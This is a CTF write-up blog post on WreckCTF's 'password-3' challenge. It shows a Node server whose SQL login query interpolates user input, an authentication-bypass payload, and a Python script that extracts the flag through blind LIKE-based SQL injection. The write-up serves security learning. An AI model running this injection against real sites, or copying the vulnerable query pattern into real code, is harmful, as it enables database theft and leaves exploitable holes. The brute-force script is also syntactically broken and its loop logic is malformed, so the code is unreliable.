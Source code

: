 ```yaml
---
layout: post
current: post
cover:  assets/wreck/ZeroDayTea/cover.png
navigation: True
title: "password-3"
date: 2022-11-03 10:00:00
tags: [WRECKCTF, web]
class: post-template
subclass: 'post'
author: ZeroDayTea
---
```


A quick but interesting proof-of-concept demonstrating that security by obscurity does not and will never work. Even if you don't show reflected feedback from SQL commands, your database is still not safe. 

## The Challenge

We are presented with a standard login page looking mighty submissive and pwnable and containing only a single password field. Let's take a look at the server-side code:
```js
const crypto = require('crypto')
const database = require('better-sqlite3')
const express = require('express')
const app = express()

FLAG = process.env.FLAG ?? 'flag{testflag}'
const db = new database(':memory:')
const id = () => crypto.randomBytes(16).toString('hex')

app.use(express.static('public'))
app.use(express.json())

app.post('/password', (req, res) => {
    const password = (req.body.password ?? '').toString()
    const result = db.prepare(
        `SELECT password FROM passwords WHERE password='${password}';`
    ).get()

    if (result) res.json({
        success: true,
        message: (
            'Congrats on logging in! However, that\'s not enough... can you ' +
            'find the flag in the database this time?'
        ),
    })
    else res.json({ success: false })
})

db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)

  

app.listen(3000)
```

And here's what the JavaScript looks like on the frontend:
```js
form.addEventListener('submit', async (event) => {
	event.preventDefault();
	const input = document.querySelector('input[type="text"]');
	const response = await fetch('/password', {
	  method: 'POST',
	  headers: { 'content-type': 'application/json' },
	  body: JSON.stringify({ password: input.value }),

	})

	const result = await response.json()
	if (result.success) {
	  const content = document.querySelector('.content')
	  content.textContent = result.message;
	} else {
	  input.removeAttribute('style');
	  input.offsetWidth;
	  input.style.animation = 'shake 0.25s';
	}
  });
```

We can see that after clicking the `Login` button, our password field data will be sent over to the server endpoint `/password` and processed using the SQL select string 

```SQL
SELECT password FROM passwords WHERE password='${password}';
```

Trying the standard authentication bypass string `admin' OR '1'='1';--` and logging in we are able to see the message 
 `Congrats on logging in! However, that's not enough... can you find the flag in the database this time?`

Looking more closely at the provided source code, we see:
```js
FLAG = process.env.FLAG ?? 'flag{testflag}'
...
db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

  

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)
```

The flag we are looking for is loaded in from an environment variable as is standard and INSERTed into the sqlite3 database. With seemingly no feedback from our SQL injections, however, we'll have to think of a more creative way to leak the passwords table in the database!

## Thinking About The Problem and SQL
One piece of feedback we do get is whether or not our SQL injection string did in fact run successfully and match something in the database or not. If we could somehow send a SQL injection that would return true if our input was similar to or LIKE one of the actual passwords in the database, we could bruteforce the password character by character.

Thankfully, SQL has the aptly named `LIKE` operator that does just this. We can use the LIKE operator in conjunction with the `%` wildcard character to match the flag in the database character by character, with the server returning a valid logged-in `true` response only if our guess is similar to the flag in the `passwords` table.

Our exploit string should look something along the lines of `' OR password LIKE '[guess]%` utilizing the previously selected `password` variable in the first half of the statement as well as the already provided ending single quote `'`; at the end of the statement.

## The Exploit
Here's a quick bruteforce script to run this exploit iteratively on the `/password` endpoint:

```python
import requests 

possibilities = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#Z^&*()" 

#flag = flag{whee_binary_search_sqli}
flag = "flag{"
url = "https://password-3.challs.wreckctf.com/password" 
payload = "" 

while True: 
    for char in possibilities: 
        print("Trying: " + flag + payload + char) 
        password = f"' OR password LIKE '{flag + payload + char}%" 
        print(password) 
        r = requests.post(url, json={"password": password}) 
        print(r.text) 
        if r.text.find("Congrats") != -1: 
            payload += char if payload[-1] == "}": 
            exit() 
        break
```

This implementation isn't entirely complete as it breaks at the last character and I had to manually add the ending curly brace `}` for the flag, but it nonetheless iterates through all the previous characters and gets the necessary part of the flag.

## Challenge Analysis
This was a quick and simple challenge, but quite an interesting one that highlights a key issue in many developers' intuition. Just because a hacker can't see the output of your SQL commands and other backend maneuvers does not necessarily mean they won't be able to expose sensitive information from the backend.

The challenge provided us with the source code for the server, making it almost immediately apparent what had to be done. However, even without source code, this kind of a vulnerability would be easy to catch given a form submission on any website or API running on a SQL database backend. It could also easily be *escalated* to read data from other tables on the database if not secured properly, leading to much larger-scale data leaks than a single flag in a single table.